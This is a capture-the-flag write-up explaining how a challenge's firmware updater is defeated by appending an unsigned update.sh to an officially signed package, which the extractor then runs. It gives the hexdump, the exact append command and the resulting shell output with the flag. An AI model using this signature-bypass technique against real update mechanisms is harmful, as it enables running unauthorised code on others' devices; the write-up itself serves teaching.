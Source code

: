 # Firmware

We're given a Femtium-based firmware update utility for the IBM PC, that is,
the International Bongo Manufacturer's Percussive Companion. A+ for humor, by
the way! The Bongo Manufacturer is keen on security, and to make sure you can
trust their firmware updates, they've included a copy of the tool that creates
the signed firmware update packages, except of course the private part of the
asymmetric signing key.

A few strategies came to mind right away:

* This could be a deliberately weak RSA key, and the challenge is to recover
  the actual signing key.
* There could be a side channel attack in the firmware updater, which could
  allow us to guess a correct signature without knowing the private key at all.
* There could be an error in the signature verification implementation or in
  the algorithm that processes the file after successful signature verification
  that allows us to circumvent it.

Examining the script that generates a firmware update package reveals that the
signature is made using standard algorithms, so there's little chance for
errors in the implementation.

I did try a quick once-over with an [RSA CTF tool](https://github.com/Ganapati/RsaCtfTool),
to check for the most obvious weak key errors, but that didn't yield anything
useful.

My next thought was, that perhaps we can simply extend an existing, valid
update file. Since the file header contains a field indicating how long the
archive is, perhaps the signature check relies only on this length to validate
the signature, but the extraction routine ignores it and processes all the data
that follows the header? Let's try it out:

I created an firmware update containing only an update.sh. The file header and
contents take up the last 64 bytes of that archive, like this:

```
user@sphinx:~/firmware$ tail -c 64 my-iBongoUpdate.bfw  | hexdump -C
00000000  09 75 70 64 61 74 65 2e  73 68 00 00 00 00 00 00  |.update.sh......|
00000010  00 00 2d 23 21 2f 62 69  6e 2f 62 61 73 68 0a 0a  |..-#!/bin/bash..|
00000020  65 63 68 6f 20 52 75 6e  6e 69 6e 67 20 75 70 64  |echo Running upd|
00000030  61 74 65 2e 73 68 0a 0a  69 64 0a 62 61 73 68 0a  |ate.sh..id.bash.|
00000040
```

Appending this portion of the archive to an official, signed update binary does
the trick:

```
user@sphinx:~/firmware$ (cat official-iBongoUpdate-0.1.bfw; tail -c 64 my-iBongoUpdate.bfw ) > iBongoUpdate_padded.bfw

noob@sphinx # ./firmware iBongoUpdate_padded.bfw
Extraction complete!
Executing update.sh
Running update.sh
uid=1006(ibongo) gid=1000(user) groups=1000(user)

ibongo@sphinx # cat protected/flag.txt
FE{1f-only-4ll-th3-th1ng5-w3r3-th15-345y-to-pwn}
```


---
_Peter Tirsek, 2020-01-25_

